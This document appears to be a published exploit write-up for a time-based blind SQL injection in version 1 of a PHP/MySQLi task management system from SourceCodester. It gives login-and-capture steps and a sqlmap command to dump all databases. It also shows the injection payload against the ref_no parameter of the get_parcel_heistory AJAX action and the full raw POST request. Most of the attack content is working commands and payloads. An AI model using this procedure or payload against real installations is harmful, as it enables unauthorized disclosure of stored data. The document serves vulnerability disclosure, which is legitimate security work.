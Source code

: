 # c
# Exploit Author: Zhaiyi (Zeo)
# Date: 2020-12-11
# Vendor Homepage: https://www.sourcecodester.com/php/14615/task-management-system-using-phpmysqli-source-code.html
# Software Link: https://www.sourcecodester.com/download-code?nid=14615&title=Task+Management+System+using+PHP%2FMySQLi+with+Source+Code
# Affected Version: Version 1
# Category: Web Application

Step 1. Log into application with credentials
Step 2. Click on Branch
Step 3. Select New Branch http://127.0.0.1/index.php?page=new_branch
Step 4. Fill the form  , click on save
Step 5. Capture the request of the ""/ajax.php?action=get_parcel_heistory"" page inburpsute
Step 6. Save request and run sqlmap on request file using command " sqlmap -r request --time-sec=5 --dbs "
Step 7. This will inject successfully and you will have an information disclosure of all databases contents

---
Parameter: ref_no (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ref_no=123' AND (SELECT 5575 FROM (SELECT(SLEEP(5)))ngIo) AND
'knst'='knst
---

POST
```
POST /ajax.php?action=get_parcel_heistory HTTP/1.1
Host: 10.211.55.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 69
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=7d3o3jettnoe5mlbqbu2r07kv0
Origin: http://10.211.55.4
Referer: http://10.211.55.4/htdocs/index.php?page=track
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

ref_no=123
```

![image-20201214102736371](https://gitee.com/godzeo/blogimg/raw/master/img/20201214102736.png)

